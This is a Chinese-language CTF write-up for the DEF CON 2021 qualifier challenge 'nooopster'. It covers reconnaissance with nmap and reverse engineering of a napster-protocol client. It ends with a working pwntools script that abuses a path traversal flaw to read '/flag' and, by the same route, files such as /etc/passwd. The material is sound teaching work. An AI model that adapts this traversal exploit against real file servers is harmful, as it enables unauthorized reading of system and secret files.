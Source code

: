 ```yaml
---
title: defcon ctf 2021 quals - nooopster
date: 2022-01-23 05:31:09
tags:
- defcon ctf 2021 quals
- pwn
categories:
- CTF 
---
```


# nooopster

![](BT4KL7X.png)

![](Z1zFFtl.png)

![](8tJ74WV.png)
<!--more-->

## 偵蒐階段

進入內網後對 **192.168.5.1** 進行掃描。得到以下結果

```
Starting Nmap 7.80 ( https://nmap.org ) at 2022-01-23 06:08 CST
Nmap scan report for 192.168.5.1
Host is up (0.011s latency).

PORT     STATE SERVICE         VERSION
7070/tcp open  napster         MLDonkey multi-network P2P client
8888/tcp open  sun-answerbook?

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 60.47 seconds

```

跟這兩個 port 進行互動沒得到什麼資訊，拿 **napster** 這個字眼跟題目很像的名字進行搜尋，發現這個 [client](http://nap.sourceforge.net/) ，載下來後跟 port 7070 互動，但發現沒有效果，嘗試用一樣的程式跟 port 8888 互動得到了響應。[Linux Napster Client: User Guide](http://nap.sourceforge.net/userguide.html) 這裡提供跟 napster server 互動的所有指令。

![](62rKHoR.png)

以下我執行了這些指令。

```bash
# 列出所有頻道
/clist

# 進入 chat 頻道
/join #chat

# 列出 nooopster 這個用戶提供的檔案清單
/browse nooopster
```

清單中有一個非 mp3 的檔案，載下來之後發現這是一隻 elf 格式的程式。我們開始嘗試逆它。

![](Jbt611q.png)

## 逆向

分析整體流程可以大約分為以下幾個階段: 

1. 連線到 127.0.0.1:8888 ， 並且檢查 napser server 上有沒有 **nooopster** 這個用戶，若沒有的話，以 **nooopster** 為用戶名登入。
2. 創建一條 thread 並且在裡面創建 data server (負責用來上傳檔案到 nooopster server 或是讓其他用戶直接下載檔案) 在 0.0.0.0:7070 監聽。
   1. 收到用戶連線後，創建一條 thread 負責處理此用戶的請求，先檢查用戶是否在下載請求的清單中，如果在的話，接者檢查要求的檔案名稱是否以字串 **"\shared\\"** 作為開頭，若通過檢查，接者會把字串 **"\shared\\"** 以後檔案名稱作為字串傳入 `open` 中。例如用戶要求下載 **"\shared\\/etc/passwd"**，則最後得到的結果會是 `open("/etc/passwd","r")`。 這裡很明顯有**路徑穿越的漏洞**，可以利用這個漏洞去讀 **"/flag"**。
3. main thread 接者會不斷的重複傳送幾條提示用的訊息到 napster server 中的頻道 chat 中，以及接收來自 napster server 的檔案下載請求 ( 其他用戶的下載請求 )，這裡不做任何檢查，**直接把用戶名加入下載請求的清單中**。



分析完後可以很明顯的發現，這是一隻根據 napster 的 protocol 實作出來的簡易 client，且帶有**路徑穿越的漏洞**，讓我們能夠下載任意檔案。

## 利用腳本

詳細的 protocol 細節在逆向 nooopster 這支 binary 的時候，有搜尋到對應的 [specification](http://opennap.sourceforge.net/napster.txt)，照著上面內容實作跟 server 互動的封包即可。

```python
from pwn import *
import ipaddress

user = "test"
def to_nap_format(opcode, content):
    return p16(len(content)) + p16(opcode) + content

def nap_msg_send(s, opcode, content):
    s.send(to_nap_format(opcode, content))

def nap_msg_recv(s):
    tmp = s.recvn(4, timeout = 0.5)
    if not tmp:
        return None  
    n = u16(tmp[:2])
    opcode = u16(tmp[2:])
    
    return {"op": opcode, "data":s.recvn(n)}

nap_server = remote("192.168.5.1", 8888)

# 檢查 napster server 上是否有這個用戶名
nap_msg_send(nap_server, 7, user.encode())
msg = nap_msg_recv(nap_server)
print(msg)

# 登入伺服器
nap_msg_send(nap_server, 2, f"{user} test 0 \"nap v0.8\" 3".encode())
msg = nap_msg_recv(nap_server)
print(msg)

# 接收一些伺服器資訊
while 1:
    msg = nap_msg_recv(nap_server)
    if not msg:
        break

# 請 napster server 向 nooopster 請求我們下載檔案的請求
nap_msg_send(nap_server, 203, b"nooopster \"\\shared\\nooopster\"") 
msg = nap_msg_recv(nap_server)
print(msg)
tmp = msg["data"].split(b' ')

# nooopster 接受下載後 napster server 會回覆我們 nooopster's 的 data server 的地址和端口
ip = str(ipaddress.IPv4Address(u32(p32(int(tmp[1])), endian = "big")))
port = int(tmp[2])

# 直接觸發路徑穿越漏洞去讀取 flag
data_server = remote(ip, port)
print(data_server.recv())
target_file = "/flag"
data_server.send(f"GET{user} \"\\shared\\{target_file}\" 0".encode())

print(data_server.recvall().decode())
nap_server.close()
data_server.close()
```



# resource 

[Linux Napster Client: User Guide](http://nap.sourceforge.net/userguide.html#4.2.)

[napster protocol](http://opennap.sourceforge.net/napster.txt)
